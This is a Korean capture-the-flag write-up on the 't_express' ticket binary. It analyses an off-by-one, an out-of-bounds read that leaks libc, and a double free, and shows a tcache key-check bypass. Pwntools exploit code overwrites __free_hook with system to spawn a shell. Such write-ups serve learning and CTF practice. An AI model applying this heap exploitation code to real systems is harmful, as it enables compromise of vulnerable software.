# 취약점 분석

## 바이너리 개요

### 보호기법



security check

- CANARY
- NX
- PIE
- RELRO

### 바이너리 정보

```c
ELF 64-bit LSB shared object
x86-64, version 1 (SYSV)
dynamically linked
interpreter /lib64/ld-linux-x86-64.so.2
for GNU/Linux 3.2.0
BuildID[sha1]=842cbd24d75c0dea40dc2e06f4996948eb59a897
with debug_info
not stripped
```

## 바이너리 분석

### 바이너리 로직 흐름



main output

- 총 4개의 메뉴를 선택할 수 있는 선택창을 확인할 수 있으며 `Buy`, `View`, `Use`, `Exit` 메뉴가 존재한다.

**Buy 메뉴**



Buy 메뉴

- 두 가지 선택으로 `One ride ticket` , `One day ticket` 을 선택할 수 있으며, 입력 값은 `First name` , `Last name` 대입 되는 것으로 확인된다.
- 두 번째 `One day tickey` 은 출력 문에 `3 meals, 1 safari pass, unlimited rides, 1 giftshop coupon` 옵션 값들이 기본 세팅되는 것으로 확인된다.

**View 메뉴**

{: width="60%" height="60%"}

View 메뉴

**Use 메뉴**

- 앞에서 입력한 `ticket` 들을 출력해주는 형식이며, 인덱스를 바탕으로 출력하는 것으로 보아 구조체 배열 구조임을 추측할 수 있다.

{: width="60%" height="60%"}

Use 메뉴

- 0 번째 인덱스를 선택한 결과 `Thank you Have a good time!` 문자열이 출력되지만 1 번째 인덱스 같은 경우 구조체 멤버들의 값을 설정할 수 있는 옵션을 추가적으로 할 수 있다.
- 0 번째 인덱스 같은 경우 `Buy` 메뉴의 1 번째 옵션 `One ride ticket` 이다.


### main 함수 분석



main 함수

- 메뉴와 관련된 함수들
    - buy_ticket()
    - view_ticket()
    - use_ticket()
    - exit()

- 각각의 케이스 별로 선택하여 해당 함수들을 호출 할 수 있다.
- 루프를 돌면서 `exit()` 함수를 바탕으로 종료되는 조건을 갖추고 있다.

### buy_ticket 함수 분석



pass5 구조체

- buy_ticket 함수의 인스턴스 p 는 `pass5 구조체의 더블 포인터` 타입을 갖고 있다.
- 해당 `pass5` 구조체의 멤버들을 확인해 보면 동적 분석을 하면서 추측했던 것들이 들어 있는 것을 확인할 수 있다.
- 전역 변수로 할당된 `passes` 를 확인할 수 있으며 포인터 구조체 배열로 할당되어 있다.



pass5 구조체 구현

- ida로 분석된 pass5 구조체를 데이터 타입 별로 C로 다시 구현하였다.
- pass5 구조체의 크기는 `0x30` 바이트를 갖고 있다.



buy_ticket 함수 내부

- 위 사진의 `check` 영역을 확인 해 보면 구조체 배열의 사이즈를 기점으로 비교 조건을 수행하며 총 $48/8+1$ 을 바탕으로 힙 청크 7개를 생성할 수 있게 된다.
- 조건을 만족하지 않는다면 `Sold out!` 문자열을 출력하며 함수가 종료된다.
- `One ride ticket` 를 선택하였다면 pass5 구조체 멤버 ticket_type, fisrtname, lastname에 값이 써진다.
- `One day ticket` 를 선택하였다면 pass5 구조체 멘버 전부에 값이 써지는 것을 확인할 수있다.



pass5 멤버 변수 데이터 삽입

- 각 firstname, lastname에 AAAA, BBBB 를 삽입하였다고 가정하였을 경우 앞의 그림 처럼 데이터가 들어가 있는 것을 확인할 수 있다.
- 사용자가 입력할 수 있는 영역은 두 개의 방식과 동일하게 firstname, lastname 멤버 변수인 것을 확인할 수 있으며 이들을 인자로 사용하는 함수는 `read_str` 함수이며 8바이트씩 입력을 받을 수 있게 설정되어 있다.

### read_str 함수 분석 (off-by-one 취약점)



read_str 함수

- firstname, lastname을 첫 번째 인자로 받고 두 번째 인자는 8 바이트 를 고정으로 받는다.
- 내부 로직에서는 read 함수를 바탕으로 입력을 받게 되고 기본적인 에러 처리가 존재하는 것을 확인할 수 있다.
- 하지만 마지막 조건에 `buf[len] = 0` 을 대입하는 것을 볼 수 있는데 우리는 해당 buf의 사이즈가 8바이트이지만 read 함수의 반환 되는 총 item 개수 즉, len 에 값에는 만약 8 바이트를 전부 입력했을 경우 8을 반환할 것이다.
- `buf[8] = 0` 이 되어질 경우 한 바이트가 오버플로우 되어 다른 메모리 주소에 overwrite가 되어 질 것이다.

### View_ticket 함수 분석 (out-of-bound, integer issues)



View_ticket 함수

- `Buy_ticket` 함수에서 생성한 두 가지 옵션의 passes 구조체 배열의 인덱스를 바탕으로 출력을 해주는 기능을 갖고 있다.
- `index` 변수의 데이터 타입은 부호 있는 정수 타입이며 해당 passes 구조체 배열의 첨자 연산을 가하게 되는데 하지만 해당 부분에서 음수 값을 검증하는 조건이 없기 때문에 음수를 입력하여 다른 메모리 주소 번지로 이동이 가능하다.



stderr↔passes

- .bss 영역에 존재하는 `passes` , `stderr` 두 주소의 차이는 0x20이며 만야 index 값을 `-4` 를 주게 된다면 0x20 바이트 차이의 주소 번지를 이동하여 stderr 메모리 영역에 도달할 것이며 다음 출력되는 곳에서 stderr 주소 값이 릭 될 것이다.
- 릭된 주소 값을 바탕으로 라이브러리 주소를 구한 후 나머지 필요한 함수들을 오프셋을 바탕으로 얻어올 수 있겠다.

### Use_ticket 함수 분석 (Double Free)




- `View_ticket` 함수에서 사용되었던 `index` 와는 다르게 부호 없는 정수 데이터 타입을 사용하고 있다.
- `ticket_type` 값을 검증하는 조건을 확인할 수 있는데 해당 부분에서 만족을 하게 된다면 메모리를 해제하는 것을 확인할 수 있다.
- `ticket_type` 값이 1이 였던 `One-ride-ticket` 은 바로 해제가 되어 `tcache entries` 넘어가게 될 것이다.



ticket_type이 0일 경우 내부 조건

{: width="50%" height="50%"}

free 조건

- 내부 조건들을 수행하고 난 후에 `meal_ticket`, `safari_pass`, `giftshop_coupon` 멤버 변수들의 값이 0일 경우 free 를 수행하는 것을 확인할 수 있다.
- 하지만 잘 생각해보면 해당 함수에서는 두 번의 free 함수가 존재하며 free를 한 후에 해당 힙 포인터들을 초기화를 하지 않기 때문에 힙 청크가 그대로 유지될 것이기 때문에 `Double Free` 취약점으로 유도할 수 있는 방법이 존재할 것이다.



Double Free

- Double Free가 발생할려면 첫 번째로 멤버 변수들을 조작하여 조건을 만족시켜 free를 할 수 있으며 해당 방법으로 다시 하고 싶지만 이미 0으로 세팅되어 있어 다시 조건을 만족할 수 가 없다. 그렇다면 맨 첫 번째 free를 해야 하는데 어떻게 하면 해당 조건을 만족할 수 있을 까?

### heap 메모리 해제 과정



heap chunk

- pass5 구조체가 동적할당이 되었을 때 해당 heap chunk 메모리 구조를 시각화 하였다.

### 해제



free1

- 동적할당으로 두 개 `One ride ticket`, `One day ticket` 를 할당하여 해당 사진 처럼 힙 청크를 만든다.
- 여기서 우리는 Double Free를 두 번째 인덱스 부분에서 진행할 것이기 때문에 `one ride ticket` 을 할당할 때 `lastname` 부분에 off-by-one 취약점을 이용하여 `ticket_type` 값을 널 바이트로 덮어 쓰게 된다면 `One ride ticket` 도 `use_ticket` 함수를 바탕으로 pass5의 구조체 멤버들을 조작할 수 있게 되기 때문이다.
- GLIBC 2.29 버전 이상의 버전에서는 tcache를 사용하는 힙 청크의 Double Free 검증이 존재한다. 그렇기 때문에 Double Free를 발생시켜 tcache dup 공격 기법을 할 수가 없다.
- ptmalloc2 에서 Double Free 검증 조건과 비슷하게 현재 해제한 포인터 즉, tcache 포인터를 `tcache_entry` 구조체의 `key` 멤버 변수에 대입을 한 후 해제를 할 경우 해당 key 값과 현재 해제하려는 포인터인지를 비교하여 같은 값이라면 `Double Free` 에러 메시지를 출력하고 비정상 종료한다.
- 그러면 어떻게 해당 조건을 우회하여 Double Free를 발생시킬 수 있을까?
- 우리는 아주 쉽게 우회가 가능하다. `key`의 값을 조작을 Double Free를 발생시키려 할 때 `key` 값이 다르다면은 아무 문제 없이 해제가 되어지기 때문이다.
- tcache double free 검증 여부의 핵심은 바로 `key` 의 값이며 key는 Backword Pointer에 위치하게 되는데 이는 pass5 구조체의 lastname 멤버 변수의 메모리 주소와 동일한 위치이다.



Double Free Bug

- `passes[0]` 는 ticket_type이 변조 되어 pass5 구조체 멤버를 조작할 수 있다고 하였다.
- 그렇기 때문에 해당 인덱스 기준 ride_count 값을 증가 시키게 된다면 1 바이트 증가하게 되어 키 값이 변조가 될 것이다.
- 결국 해당 키 값은 변조가 되어 Double Free가 터지게 된 모습을 확인할 수 있다
# 해결 방안

## 공격

## 공격 시나리오

- 라이브러리 주소를 구하기 위해 메모리 릭을 한다.
    - view_ticket의 index 변수에 -4 첨자 연산을 바탕으로 stderr 의 주소 값을 노출 시킨후 라이브러리 의 stderr 오프셋과의 계산을 통해 구한다.
- passes를 두 장 구매한다. (One ride ticket, One day ticket)
    - One ride ticekt은 lastname을 8바이트 입력 하여 off-by-one 버그가 터지게 한다.
- One day ticket을 사용하여 해제를 진행한다. (첫 번째 해제)
- One ride ticket을 사용하되 ride_count 값을 증가시켜 One day ticket의 키 값을 변조 시킨후 One day ticketd을 다시 해제하여 Double free를 발생시킨다.
    - 해당 과정을 총 두 번 반복하여 공격에 필요한 청크를 생성하도록 한다.
- Double Free로 인하여 같은 주소 값을 가리키는 tcache는 3개이며 첫 번째 할당할 경우 같은 크기로 할당을 하도록 한다.
    - 첫 번째 tcache : __free_hook 주소
    - 두 번째 tcache : "/bin/sh\x00"
    - 세 번째 tcache : "lib_system 주소
- 두 번째 할당한 청크에는 "/bin/sh\x00" 문자열이 들어 있기 때문에 해당 값을 free(system)의 인자로 사용하여 쉘 권한을 얻도록 한다.

## 인터페이스

```python
from pwn import *

e = ELF('./t_express')
l = ELF('./libc.so.6')
p = process('./t_express')
# p = remote('ctf.campus.theori.io', 7079)

def Buy(num, first, last):
    log.info(p.sendafter("choice: ", "1"))
    log.info(p.sendafter("(1/2): ", str(num))+str(num))
    log.info(p.sendafter("First name: ", str(first)) + str(first))
    log.info(p.sendafter("Last name: ", str(last)) + str(last))

def View(idx):
    log.info(p.sendafter("choice: ", "2"))
    log.info(p.sendafter("Index of ticket: ", str(idx)) + str(idx))
    # leak (lib_base)
    if idx < 0:
        log.info(p.recvuntil("|name |"))
        lib_base = u64(p.recvline()[-9:-3].ljust(8, '\x00')
                       ) - 0x83 - l.sym['_IO_2_1_stderr_']
        log.info("lib_base : " + hex(lib_base) )
        return lib_base
    else:
        log.info(p.recvuntil("==========================\n"))
        log.info(p.recvuntil("==========================\n"))

def Use(idx, num):
    log.info(p.sendafter("choice: ", "3"))
    log.info(p.sendafter("Index of ticket: ", str(idx)) + str(idx))
    log.info(p.sendafter("(1/2/3/4): ", str(num)) + str(num))

def _free(idx):
    for i in range(0,3):
        Use(idx, 1)
    Use(idx, 2)
    Use(idx, 3)
```

## 라이브러리 주소 노출

```python
def View(idx):
    log.info(p.sendafter("choice: ", "2"))
    log.info(p.sendafter("Index of ticket: ", str(idx)) + str(idx))
    # leak (lib_base)
    if idx < 0:
        log.info(p.recvuntil("|name |"))
        lib_base = u64(p.recvline()[-9:-3].ljust(8, '\x00')
                       ) - 0x83 - l.sym['_IO_2_1_stderr_']
        log.info("lib_base : " + hex(lib_base) )
        return lib_base
    else:
        log.info(p.recvuntil("==========================\n"))
        log.info(p.recvuntil("==========================\n"))
```



라이브러리 주소

## off-by-one을 바탕으로 ticket_type 0으로 변경

```python
Buy(1, "AAAA", "BBBBBBBB")
Buy(2, "AAAA", "BBBB")
```



첫 번째 할당 페이지

## 첫 번째 해제후 키값 확인

```python
_free(1)
```



해제 후 키 값 확인 페이지

## 키 변조후 Doube Free 버그 발생

```python
for i in range(0,2):
    Use(0, 4)
    Use(1, 4)
```



키 값 변조

- 키 변조 및 메모리 해제를 두 번 진행한다.



Double Free Bug

- tcache_entry에 총 3개의 tcache가 생긴 것을 확인할 수 있으며
- Forward Point가 자기 자신을 가리키는 상태 즉, Double Free가 발생하였다.

## __free_hook Overwrite

```python
Buy(2, p64(free_hook), "BBBB")
Buy(2, "/bin/sh\x00", "BBBB")
Buy(2, p64(lib_system), "BBBB")
```

- C 라이브러리에는 malloc, calloc, free와 같은 함수들을 관리하기 위해 `__malloc_hook`, `__free_hook` 변수를 제공한다. 해당 변수에 후킹 함수의 주소가 저장되어 있으며 해당 함수가 호출될 때 기존의 함수가 아닌 후킹 함수가 호출된다.
